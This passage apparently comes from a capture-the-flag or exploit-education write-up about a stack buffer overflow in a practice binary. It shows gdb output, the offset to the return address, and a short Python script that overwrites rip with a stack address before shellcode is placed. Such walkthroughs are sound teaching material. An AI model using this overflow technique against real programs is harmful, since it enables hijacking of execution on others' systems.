 We can say we are controlling the `rip`.

The start of our address is at `rbp-0x80`:

```gdb
(gdb) x/8x $rbp-0x80
0x7fffffffebe0: 0x41414141      0x41414141      0x00400000      0x00000000
0x7fffffffebf0: 0x004005a4      0x00000000      0x00000000      0x00000000
```

Okay, we have following information:

* Buffer starts at `rbp-0x80` : `0x7fffffffebe0`
* We can control our instruction pointer after 136 byte values

Let's do what we were supposed to do—controlling our stack and making our shellcode executable.

Like I said, we can control our `rip`, and we also know where our buffer starts (`rbp-0x80` i.e `0x7fffffffebe0`) so by 136 bytes + address we want to pivot (i.e `0x7fffffffebe0`) we can break the `rip`.

### script.py:

```python
import sys
import struct
addr = struct.pack("<Q", 0x7fffffffebe0)
sys.stdout.buffer.write(136 * b"A" + addr)
```

This should work.

---

```gdb
(gdb) ni
0x0000000000400595 in start_level ()
(gdb)
0x0000000000400599 in start_level ()
(gdb)
0x000000000040059c in start_level ()
(gdb)
0x00000000004005a1 in start_level ()
(gdb)
0x00000000004005a2 in start_level ()
(gdb)
0x00000000004005a3 in start_level ()
(gdb)
0x00007fffffffebe0 in ?? ()
```

Fine, next is we wanna make sure whatever shellcode we insert works. Instead of directly placing shellcode, we must put some debugging opcode like suggested `\xCC`.

`\xCC` is like signal sent to hardware to pause the execution and and set a trap called SIGTRAP.
